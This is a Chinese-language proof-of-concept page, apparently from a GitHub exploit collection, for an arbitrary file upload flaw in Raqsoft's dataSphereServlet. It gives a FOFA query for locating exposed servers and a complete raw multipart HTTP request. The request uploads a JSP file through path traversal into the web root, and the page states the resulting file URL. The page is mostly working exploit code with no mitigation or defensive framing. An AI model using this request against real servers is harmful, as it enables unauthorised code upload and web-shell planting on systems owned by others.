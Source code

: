 ## 润乾报表dataSphereServlet任意文件上传

## fofa
```
body="/raqsoft"
```

## poc
```
POST /demo/servlet/dataSphereServlet?action=38 HTTP/1.1
Host: 
Content-Length: 408
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAT7qVwFychEm0Dt7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1:6868/demo/raqsoft/guide/jsp/olap.jsp
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=D46F0E193FBD9BC2FCFB32D684296765
Connection: close

------WebKitFormBoundaryAT7qVwFychEm0Dt7
Content-Disposition: form-data; name="openGrpxFile"; filename="1.jsp"
Content-Type: text/plain

<% out.println("123"); %>
------WebKitFormBoundaryAT7qVwFychEm0Dt7
Content-Disposition: form-data; name="path"

../../../
------WebKitFormBoundaryAT7qVwFychEm0Dt7
Content-Disposition: form-data; name="saveServer"

1
------WebKitFormBoundaryAT7qVwFychEm0Dt7--
```
![6bd4f09c49b722c1fca0f0b409775c0a](https://github.com/wy876/POC/assets/139549762/bd4e87b8-f8b4-41da-8f24-a9d988c1645b)

文件路径：`http://127.0.0.1:6868/demo/1.jsp`

![07321afe81c0e7b261bdb201c492e9bc](https://github.com/wy876/POC/assets/139549762/31e37298-b669-4bd7-a0c1-47afc5222f05)
